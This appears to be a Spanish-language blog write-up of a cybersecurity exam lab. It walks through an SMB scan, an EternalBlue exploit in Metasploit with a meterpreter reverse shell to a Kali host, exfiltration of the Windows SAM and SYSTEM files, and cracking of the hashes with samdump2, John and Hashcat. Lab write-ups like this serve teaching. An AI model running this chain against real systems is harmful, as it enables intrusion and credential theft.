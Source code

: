 ```yaml
---
title: EXAMEN PARCIAL
date: 2024-11-03 00:00:00 -05:00
categories: [Ciberseguridad, Seguridad Informática]
tags: [METERPETER, EXPLOIT, SAM]  # TAG names should always be lowercase
---
```


En este post, vamos a explicar los pasos realizados para el desarrollo del examen parcial, se responden las siguientes preguntas relacionadas a cada paso.


# 2.1. Escaneo de Red y Enumeración de Servicios (2 puntos) 

nmap -p 139,445 --script smb-protocols 10.0.2.4

![alt text](/assets/images/1.png)

### Explicación:
Los puertos 139 y 445 están asociados con el servicio SMB en Windows. Usamos el flag --script smb-protocols de Nmap para enumerar las versiones de los protocolos SMB que están habilitados.
En los resultados, se muestra que NT LM 0.12 (SMBv1) está habilitado en la máquina Windows Server (10.0.2.4), lo cual es vulnerable.

# 2.2. Exploración de la Vulnerabilidad 

Uso del exploit exploit/windows/smb/ms17_010_eternalblue en Metasploit:

EternalBlue (MS17-010) explota una vulnerabilidad en SMBv1, permitiendo ejecución remota de código en sistemas sin parchar, como Windows Server 2008 R2.
Este exploit es ideal para esta tarea ya que se enfoca en SMBv1, lo que nos permite ejecutar código y obtener una conexión remota con el servidor si tiene SMBv1 activo y es vulnerable a EternalBlue.

# 2.3. Configuración del Exploit en el Framework Metasploit

Inicia Metasploit:
    msfconsole
Selecciona el módulo de EternalBlue:
use exploit/windows/smb/ms17_010_eternalblue
Configura los parámetros necesarios:

![alt text](/assets/images/2.png)

### Explicación de los parámetros:
RHOSTS (Remote Host): IP de la máquina objetivo (Windows Server 10.0.2.4). Indica a Metasploit dónde dirigir el ataque.
LHOST (Local Host): IP de la máquina atacante (Kali Linux 10.0.2.9). Es necesario para recibir la conexión de vuelta (reverse shell).
PAYLOAD: windows/x64/meterpreter/reverse_tcp crea un payload de reverse shell que te permitirá obtener acceso remoto y control sobre la máquina víctima.

# 2.4. Ejecución del Exploit (2 puntos)

Comando para ejecutar el exploit:
exploit
Confirmación de éxito:

![alt text](/assets/images/3.png)

### Explicación de los parámetros:
El exploit se ejecuta correctamente, mensaje en Metasploit Meterpreter session X opened.
Este mensaje confirma que se ha establecido una conexión con la máquina objetivo (Windows Server 10.0.2.4) y ahora se tiene una sesión interactiva.

# 2.5. Exfiltración de Archivos SAM y SYSTEM 

Pasos para exfiltrar los archivos:
Sube el script vssown.vbs a la máquina víctima:
upload /home/user/Desktop/vssown.vbs C:\Windows\Temp\vssown.vbs

![alt text](/assets/images/4.png)

Copia los archivos SAM y SYSTEM desde la copia de volumen de sombra:
![alt text](/assets/images/5.png)

Descarga los archivos a tu máquina atacante:
download C:\Windows\Temp\SAM /ruta/en/Kali/SAM
download C:\Windows\Temp\SYSTEM /ruta/en/Kali/SYSTEM

# 2.6. Análisis de los Archivos Exfiltrados 

### Extracción de hashes de contraseñas en Kali Linux:
Usa samdump2 para extraer los hashes de los archivos SAM y SYSTEM:
samdump2 /ruta/en/Kali/SYSTEM /ruta/en/Kali/SAM > hashes.txt

Con los hashes en hashes.txt, intenta descifrarlos con John the Ripper:
john --format=NT hashes.txt

O bien, usa Hashcat para realizar un ataque con GPU:
hashcat -m 1000 hashes.txt /ruta/a/wordlist

### Explicación:
Samdump2 extrae los hashes de los archivos SAM y SYSTEM, que son esenciales para intentar descifrar las contraseñas de los usuarios.
John the Ripper y Hashcat permiten descifrar los hashes mediante ataques de diccionario o fuerza bruta.
